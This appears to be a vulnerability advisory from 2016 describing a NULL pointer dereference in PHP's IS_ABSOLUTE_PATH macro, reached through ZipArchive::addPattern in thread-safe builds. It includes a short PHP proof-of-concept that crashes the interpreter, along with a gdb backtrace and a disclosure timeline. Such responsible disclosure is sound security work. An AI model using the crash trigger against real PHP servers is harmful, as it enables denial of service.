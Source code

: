 ```yaml
---
title: "PHP NULL pointer dereference in zend_virtual_cwd (v. master-Git-2016-07-23)"
date: 2016-07-23 00:00:00
preview: ""
---
```


* _Author_: Martino Sani
* _Software_: PHP
* _Version_: master-Git-2016-07-23
* _Release date_: 2016-07-23
* _CVE_: -
* _Reference_: https://bugs.php.net/bug.php?id=72660

One of the `IS_ABSOLUTE_PATH` macro in `zend_virtual_cwd.h` file does not verify that the path is not null. This could lead to a null pointer dereference issue.
I triggered the issue through `ZipArchive::addPattern` function and ZTS (Zend Thread Safety) enabled, but maybe it could be triggered via different vectors.

[ZipArchive.AddPatter](http://php.net/manual/en/ziparchive.addpattern.php) reports that the default value of $path argument is `.` but in my tests it was null.

`zend_virtual_cwd.h (line 112)`:
```c
#ifndef IS_ABSOLUTE_PATH
#define IS_ABSOLUTE_PATH(path, len) \
        (IS_SLASH(path[0]))
#endif
```
`php_zip.c (line 609)`:
```c
#ifdef ZTS
if (!IS_ABSOLUTE_PATH(path, path_len)) {
   result = VCWD_GETCWD(cwd, MAXPATHLEN);
```
# PHP build
```
./buildconf --force
./configure --enable-zip --enable-maintainer-zts
make && make install
```
# Test script
```
$zip = new ZipArchive();
$zip->open("foo.zip", ZIPARCHIVE::CREATE);
$zip->addPattern("/\./");
$zip->close();
?>
```
# Expected result
PHP interpreter should not crash.

# Actual result
```
Program received signal SIGSEGV, Segmentation fault.















0x0000000001f7e049 in php_zip_pcre (regexp=<optimized out>, path=0x0, path_len=<optimized out>, return_value=<optimized out>) at ext/zip/php_zip.c:610
warning: Source file is more recent than executable.
610             if (!IS_ABSOLUTE_PATH(path, path_len)) {

(gdb) bt

#0  0x0000000001f7e049 in php_zip_pcre (regexp=<optimized out>, path=0x0, path_len=<optimized out>, return_value=<optimized out>) at ext/zip/php_zip.c:610
#1  0x0000000001f9cb8b in php_zip_add_from_pattern (execute_data=<optimized out>, return_value=<optimized out>, type=<optimized out>) at ext/zip/php_zip.c:1669
#2  0x000000000276ddd4 in ZEND_DO_FCALL_SPEC_RETVAL_UNUSED_HANDLER (execute_data=<optimized out>) at Zend/zend_vm_execute.h:970
#3  0x0000000002673052 in execute_ex (ex=<optimized out>) at Zend/zend_vm_execute.h:432
#4  0x0000000002673c2f in zend_execute (op_array=<optimized out>, return_value=<optimized out>) at Zend/zend_vm_execute.h:474
#5  0x000000000242b711 in zend_execute_scripts (type=<optimized out>, retval=<optimized out>, file_count=<optimized out>) at Zend/zend.c:1447
#6  0x000000000202ccce in php_execute_script (primary_file=0x7fffffffcd20) at main/main.c:2533
#7  0x0000000002a97fe3 in do_cli (argc=<optimized out>, argv=<optimized out>) at sapi/cli/php_cli.c:990
#8  0x0000000002a9385c in main (argc=3, argv=0x60300000ee30) at sapi/cli/php_cli.c:1378

(gdb) info args

regexp = <optimized out>
path = 0x0
```

# Notes
* 2016-07-23: Vendor notification.
* 2016-07-24: Vendor fixes the issue.
	


